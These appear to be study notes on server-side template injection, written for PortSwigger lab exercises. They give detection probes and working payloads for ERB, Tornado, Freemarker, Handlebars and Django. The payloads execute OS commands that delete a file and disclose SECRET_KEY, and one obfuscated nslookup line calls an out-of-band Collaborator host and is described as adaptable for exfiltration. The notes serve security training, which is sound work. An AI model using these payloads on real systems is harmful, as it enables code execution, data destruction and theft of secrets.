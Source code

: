 ![[SSTI.webp]]
# Recon

To detect and identify SSTI, there are some techniques available [here](https://portswigger.net/web-security/server-side-template-injection#constructing-a-server-side-template-injection-attack), but in short, some payloads to try include:

-  `{{7*7}}`
- `${7*7}`
- `<%=7*7%>`
- `%{7*test}`
- `{{this}}{{self}}`
- `${{<%[%'"}}%\`
# Cheat Sheet

Some useful cheat sheets include:

- [PayloadsAllTheThings - Command Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#filter-bypasses)
- [PayloadsAllTheThings - SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

An obfuscation example that can help to bypass filtering is the following:

```bash
<%system("nslookup $(e`echo ch`o hello).yvxfjnpedf14.oastify.com")%>
```

This will append the string "hello" to Burp Collaborator. This can be changed to exfiltrate data.
# Basic Server-Side Template Injection

Some Ruby ERB Template Syntax payload:

```ruby
<%=7*7%>
```

If the payload is successful, then in the response you should see the value of 49. The following payload can be used to execute an OS command that deletes a file from the server:

```ruby
<%system("rm /home/carlos/morale.txt")%>
```

Some other payloads for enumeration include:

```ruby
{{7*7}}
${7*7}
```

# Basic Server-Side Template Injection (Code Context)

This can be used for a Tornado web template engine. Try to trigger an error message in the app - sometimes the app will disclose the template that is is using. Some payloads to try include:

```ruby
{{7*7}}
${7*7}
```

The syntax needs to be valid for successful execution of the payload. Another to try includes:

```ruby
}}{{7*7
```

This payload may return the value of 49. The following payload can be used to execute an OS command that deletes a file from the server:

```ruby
}}{%import+os%}{{os.system("rm+/home/carlos/morale.txt")
```
# Server-Side Template Injection Using Documentation

For Freemarker template engine, attempt to trigger an overly verbose error message on the app, which discloses the template engine in use:

```ruby
${7*test}
```

The following payload can be used to execute an OS command that deletes a file from the server:

```ruby
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /home/carlos/morale.txt") }
```
# Server-Side Template Injection with a Documented Exploit

>[!info] Resource 
>https://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html

For Handlebars templating engine, you can try and identify it via the following payload:

```javascript
{{this}}{{self}}
```

Using the payload mentioned in the resource, swap out the following line of code:

```javascript
return JSON.stringify(process.env);
```

Then inject either of the following payloads in its place, then URL encode the entire payload String before submitting the payload back to the application:

```javascript
return require('child_process').execSync('rm /home/carlos/morale.txt');
return require('child_process').exec('rm /home/carlos/morale.txt');
```
# SSTI with Disclosure via User-Supplied Objects

For a Django template engine, a payload can be used to disclose debug information:

```javascript
{% debug %}
```

The “settings” Object can be used to retrieve sensitive information from the template engine configuration.

```javascript
{{settings.SECRET_KEY}}
```
# SSTI in a Sandboxed Environment

- See lab/document information. - [https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-a-sandboxed-environment](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-a-sandboxed-environment)
# SSTI with a Custom Exploit

- See lab/document information. - [https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-a-custom-exploit](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-a-custom-exploit)

